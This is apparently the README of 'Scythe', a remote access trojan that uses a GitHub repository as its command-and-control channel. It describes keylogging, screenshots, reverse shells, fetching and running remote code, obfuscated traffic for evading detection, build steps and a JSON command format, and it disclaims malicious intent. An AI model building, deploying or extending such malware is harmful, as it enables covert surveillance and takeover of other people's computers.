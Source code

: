 # Scythe
Scythe is a post-exploitation RAT that uses a Github repository as Command and Control (C2 / CNC). It is packed with capabilities such as keylogging, grabbing screenshots, opening reverse shells to remote IPs etc. It's capabilities can be further expanded as it can pull code from the C2 Github repository and execute them. The communications can also be obfuscated using base64, AES or any other custom methods to evade detection in basic ways. 

**Disclaimer**: This tool was created to learn about how malwares work and can be constructed. This is not intended to be used for malicious purposes. 
**Note**:  Executable created using this tool would easily be flagged by any Antivirus with Heuristics-based analysis. 

## Installation:
- `setup.sh` and `setup.ps1`will check for Python and pip installations, install dependencies required from `requirements.txt` and will prompt for a Github Personal Access Token that will be used to access the repository intended to use as C2.
- **Note**: It is advisable to use fine tuned tokens as you can limit the access it has to a single repository.

## Usage:
- Once dependencies are installed, the parameters in `params.py` can be optionally filled. If the parameters are filled, executables can be executed without passing any positional parameters. Else parameters must be specified for every execution. However, you may still override the parameters given in `params.py` by giving positional parameters.
- Execute `pyinstaller main.py` to create executable.
- **Note**: Pyinstaller can only create executable targeting the same operating system as the one it is run on. So to make an executable for Linux, it must be built on Linux and the same goes for Windows.
- The final built executable can be found under `dist/main/` as `main`.

## Working:
- Once executed, the tool will extract information on the host and create a folder in the repository with an UID and push the information into the file `00_info`
-  The tool will push updates in regular intervals which is specified as a parameter in `params.py` or it defaults to 300 seconds.
- This will also create another file in the same folder called `00_commands` which is a JSON file that takes commands. The key of the function that is mapped in the code is put against parameters to be passed to it. The parameters must be in the same order as the function argument list.  An example is shown below:
	```json
	[
		{
			"shell": ["127.0.0.1", 12345]
		},
		{
			"screenshot": [10]
		},
		{
			"testing": []
		}
	]
	```
- If a key-function is not available in the code, it checks for files in the same name under `modules/` in the C2 repository. It can pull code either in clear or obfuscated versions of them if available as \<function_name\>.\<obfuscation\> like `testing.base64`. If obfuscated versions are not available it will default to code in the clear.
- Code under `modules/` must be a single callable function with all dependencies imported inside the function. Example:
	```py
	def showPwned():
	    from time import strftime
	    message: str = strftime("%Y-%m-%d %H:%M")
	    with open("here.txt","w") as f:
	        f.write("I was here at {}".format(message))
	```
- The tool does not make any arrangements for persistence.
## C2 Helper:
- There is also a helper script `c2helper.py` to pull obfuscated content from the repository and aggregate multiple updates into respective files in clear text.
- The same script also packs a listener mode that can listen to the reverse shell. Since the contents of the reverse shell might be obfuscated, traditional listeners like NetCat might be hard to use.
- **Note**: The script is quite hacky, and works in very strict way. Feel free to modify it.